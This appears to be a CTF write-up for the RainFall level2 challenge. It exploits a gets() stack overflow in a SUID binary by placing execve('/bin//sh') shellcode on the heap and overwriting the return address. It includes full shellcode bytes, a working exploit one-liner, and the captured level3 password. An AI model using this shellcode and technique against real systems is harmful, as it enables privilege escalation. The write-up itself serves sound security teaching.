 # Level 2

## Vulnerability

Stack overflow

## Context

We find a binary with owner ```level3``` and SUID.
```
level2@RainFall:~$ ls -l
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
Running the binary, it seems to read from stdin, and print what is given.
```
level2@RainFall:~$ ./level2
oh hi
oh hi
```

## Solution

After a certain length of input it segfaults.
```
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
When we inspect with gdb we find main calls function ```p```. Function ```p``` includes a call to ```gets()``` which is vulnerable to buffer overflow.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) disas main
...
   0x08048545 <+6>:	call   0x80484d4 <p>
...
(gdb) disas p
...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
...
```

### Find EIP offset

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 80.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
This means we can write our malicious code in the stdin, followed by garbage until the buffer overflows and we reach 80 characters, where the return address can be overwritten.

### Find target address

However, this buffer is stored on the stack, unfortunately function ```p``` checks to make sure the return address isn't in the stack.
```
(gdb) disas p
...
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
...
```
This prevents us from overwriting the return address with and address in the stack, or an environment variable.

However, we could use the heap. ltrace shows the buffer is later copied with strdup. strdup uses malloc which uses the heap.
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                          = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5 oh hi!
)               = 0xbffff6ac
puts(" oh hi!" oh hi!
)                                             = 8
strdup(" oh hi!")                                           = 0x0804a008
+++ exited (status 8) +++
```
ltrace also shows us strdup always uses the address ```0x804a008```, this indicates no ASLR (Address Space Layout Randomization).

So let's try to write our malicious shellcode in the heap by writing it in the input prompt. Then write the strdup malloc address on the return address.

### Build malicious code

We can use syscall ```execve()``` to open a shell. Searching for unix syscalls in ```/usr/include/i386-linux-gnu/asm/unistd_32.h``` we find ```execve()``` is syscall 11.
```
level2@RainFall:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep "execve"
#define __NR_execve		 11
```
Let's create the assembly code to open a shell, and break it down into bytecode.
```
+----------------+-----------------------+-----------------------+----------------------------------------------+
| Bytecode       | (Intermediate)        | Assembly              | Comments                                     |
+----------------+-----------------------+-----------------------+----------------------------------------------+
| 31 d2          | xor    edx,edx        | xor   edx, edx        | execve 3rd parameter = envp, NULL            |
| 31 c9          | xor    ecx,ecx        | xor   ecx, ecx        | execve 2nd parameter = argv, NULL            |
| 51             | push   ecx            | push  ecx             |                                              |
| 68 2f 2f 73 68 | push   0x68732f2f     | push  '//sh'          | after 3rd push instruction, stack contains:  |
| 68 2f 62 69 6e | push   0x6e69622f     | push  '/bin'          | db '/bin//sh',0,0,0,0                        |
| 31 c0          | xor    eax,eax        | xor   eax, eax        |                                              |
| b0 0b          | mov    al,0xb         | mov   al, 11          | execve syscall                               |
| 89 e3          | mov    ebx,esp        | mov   ebx, esp        | execve 1st parameter = executable (on stack) |
| 83 e4 f0       | and    esp,0xfffffff0 | and   esp, 0xfffffff0 | align stack                                  |
| cd 80          | int    0x80           | int   0x80            | syscall                                      |
+----------------+-----------------------+-----------------------+----------------------------------------------+
```

Lets create our malicious code string, sdding backslash \x to write as bytes.
```
\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80
```

### Build exploit string

Lets create our exploit string:
1. Our malicious bytecode (26 bytes) - ```\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80```
2. Buffer until EIP offset at 80 bytes - ```"A" * 54```
3. Address of our malicious code, copied by strdup() to the heap - ```\x08\xa0\x04\x08```

Pipe the exploit string into ./level2 stdin. This opens a shell as user ```level3```, where we can cat the level3 password.
```
level2@RainFall:~$ (python -c 'print "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80" + "A" * 54 + "\x08\xa0\x04\x08"' ; cat -) | ./level2
...
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Recreate Exploited Binary

As user ```level3```, in /tmp/ create and compile ```level2_source.c```
```
level3@RainFall:/tmp$ gcc level2_source.c -fno-stack-protector -z execstack -o level2_source
```
Edit permissions including suid, then move the binary to home directory.
```
level3@RainFall:/tmp$ chmod u+s level2_source; chmod +wx ~; mv level2_source ~
```
Exit back to user level2, then run the binary.
```
level3@RainFall:/tmp$ exit
exit
level2@RainFall:~$ (python -c 'print "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80" + "A" * 54 + "\x08\xb0\x04\x08"' ; cat -) | /home/user/level3/level2_source
...
whoami
level3
```
